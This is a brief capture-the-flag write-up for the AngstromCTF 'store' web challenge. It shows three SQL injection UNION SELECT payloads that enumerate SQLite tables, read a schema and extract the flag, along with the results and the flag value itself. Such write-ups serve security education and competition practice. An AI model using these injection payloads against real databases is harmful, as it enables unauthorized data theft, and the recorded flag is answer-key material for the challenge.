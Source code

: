 <font size = '4'>
<p align = 'center'>
<b>
AngstromCTF - store Writeup 
</b>
</p>
</font>

<br>
<font size = '3'>

<b>Challenge Description:</b><br>

https://store.web.actf.co/

<br>

<b>Exploitation:</b><br>

SQLI. Database can be found out using sqlmap. 

Payloads used:

```sql
' UNION SELECT 'a','a',tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'-- => flags24672d7c59b258a88d425605e3957cb4

' UNION SELECT 'a','a',sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='flags24672d7c59b258a88d425605e3957cb4'-- => ( flag TEXT)

' UNION SELECT 'a','a',flag FROM flags24672d7c59b258a88d425605e3957cb4-- => actf{37619bbd0b81c257b70013fa1572f4ed}
```